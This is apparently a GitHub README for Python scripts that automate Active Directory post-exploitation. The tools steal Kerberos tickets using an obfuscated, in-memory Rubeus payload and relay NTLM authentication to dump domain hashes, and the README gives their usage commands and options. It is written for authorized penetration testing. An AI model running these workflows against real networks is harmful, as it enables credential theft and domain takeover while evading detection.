




# Active Directory Post-Exploitation and Relay Automation Utilities

This repository contains a collection of Python orchestrator scripts designed for security assessments and penetration testing within Active Directory environments. These tools are specifically engineered for post-exploitation scenarios where local administrative access has already been established on a compromised workstation or server, and the objective is to perform lateral movement or privilege escalation toward the broader Active Directory domain.

By automating workflows involving common security utilities such as NetExec, Impacket, Donut, and BloodyAD, these scripts streamline complex multi-step processes into repeatable, single-command operations.
## Prerequisites
The scripts require the following tools to be installed on the host system and available within the system's `PATH`:

- Python 3.x
- NetExec (`nxc`)
- Impacket (`impacket-ntlmrelayx`, `impacket-secretsdump`, `impacket-ticketConverter`)
- Donut (Shellcode generator)
- Myph (Binary compiler/obfuscator)
- BloodyAD (Active Directory administration tool)
- Standard Linux utilities: `awk`, `base64`
### Optional Python Dependencies
For enhanced console output formatting, install the following packages:
```bash
pip install colorama rich
```
## Component Overview
### 1. TGT Extraction Orchestrator (`harpyTGT.py`)
This script automates the extraction of a Kerberos Ticket Granting Ticket (TGT) from a logged-in Windows session and converts it into a Linux-compatible `ccache` format.
- **Scenario:** Once local administrator access is obtained on a machine, this tool allows operators to harvest the Kerberos tickets of domain users active on that host, enabling lateral movement without knowing their plaintext passwords. 
- **Mechanism:** Generates a `Rubeus.exe` shellcode payload via Donut, applies obfuscation using Myph, and executes the resulting binary on the target host using either scheduled tasks (`schtask_as`) or `mmcexec`.

Standard Execution (Target user has administrative privileges):
```bash
./harpyTGT.py -t <TARGET_IP> -u <LOCAL_ADMIN_USER> -p <LOCAL_ADMIN_PASS> -U <TARGET_USER> -r </path/to/Rubeus.exe>
```

Alternative Execution (Target user lacks administrative privileges):
```bash
./harpyTGT.py -t <TARGET_IP> -u <LOCAL_ADMIN_USER> -p <LOCAL_ADMIN_PASS> -U <TARGET_USER> -r </path/to/Rubeus.exe> --no-target-admin --attacker-ip <ATTACKER_IP>
```

### 2. NTLM Relay Automation (`harpyRelay.py`)
This script coordinates NTLM relay attacks targeting misconfigured SMB or LDAP signing policies on Domain Controllers to achieve domain-wide privilege escalation or perform an NTDS database dump (`DCSync`).
- **Scenario:** Utilizing existing local admin privileges on a compromised host, the script forces a high-privileged process (such as a Domain Admin session) to authenticate back to the attacker, relaying those credentials to the Domain Controller to compromise the entire domain via LDAP/LDAPS.
- **Mechanism:** Spawns an `ntlmrelayx` listener, triggers an authentication request from the compromised client via NetExec, monitors the output for successful exploitation, and dumps domain hashes. The tool contains automated cleanup routines to minimize the footprint on the target domain.

LDAPS Flow (Standard):
```bash
./harpyRelay.py--target-host <CLIENT_IP> --local-user <LOCAL_ADMIN> --local-pass <LOCAL_PASS> --domain-admin-user <DOMAIN_ADMIN> --attacker-ip <ATTACKER_IP> --dc-ip <DC_IP> --domain <DOMAIN.LOCAL>
```
LDAP Flow (Alternative flow when LDAPS is unavailable):
```bash
./harpyRelay.py --target-host <CLIENT_IP> --local-user <LOCAL_ADMIN> --local-pass <LOCAL_PASS> --domain-admin-user <DOMAIN_ADMIN> --attacker-ip <ATTACKER_IP> --dc-ip <DC_IP> --domain <DOMAIN.LOCAL> --no-ldaps
```

## 3. NetExec Module: `stealTGT`
A custom module for **NetExec (`nxc`)** designed to extract the Kerberos Ticket Granting Ticket (TGT) from a specific logged-on user on the target machine. 

The module interacts via `mmcexec` as `SYSTEM`, automating the generation of an evasive payload (encapsulating Rubeus with Donut and Myph), executing it in-memory, capturing the Base64 ticket output, and transparently converting it into a `.ccache` file ready for use in Linux.
### Prerequisites on the Attacker Host (Kali Linux)
The module automatically verifies that the following utilities are installed and available in your `$PATH`:
* `donut`
* `myph`
* `impacket-ticketConverter`
### Module Installation
To load the external module into NetExec, copy the `stealTGT.py` script into your local NetExec modules directory:
```bash
cp stealTGT.py ~/.nxc/modules/
```
### Usage & Syntax
```bash
netexec smb <TARGET_IP> -u <ADMIN_USER> -p <ADMIN_PASS> --local-auth -M stealTGT -o USER=<TARGET_USER> RUBEUS=/path/to/Rubeus.exe
```
**Module Options (`-o`):**
- `USER`: The username of the currently logged-on session from which you want to harvest the TGT (e.g., `jdoe`).
- `RUBEUS`: The local path on your attacker machine where the legitimate `Rubeus.exe` binary is located.

## Operational Features
- **Automated Environment Cleanup:** The relay utility tracks ephemeral accounts created during execution and automatically attempts removal via `bloodyad` or `netexec` once operations conclude.
- **Handling of Non-TLS Environments:** Includes explicit fallbacks for environments where Domain Controllers do not support LDAP over TLS (LDAPS).
    
## Disclaimer
> **CRITICAL NOTICE:** This repository is intended strictly for authorized security auditing, vulnerability research, and educational purposes. Running these tools against production infrastructure without prior explicit, written authorization from the system owners is strictly prohibited. The author assumes no liability for misuse, collateral damage, or legal consequences resulting from the deployment of this software.
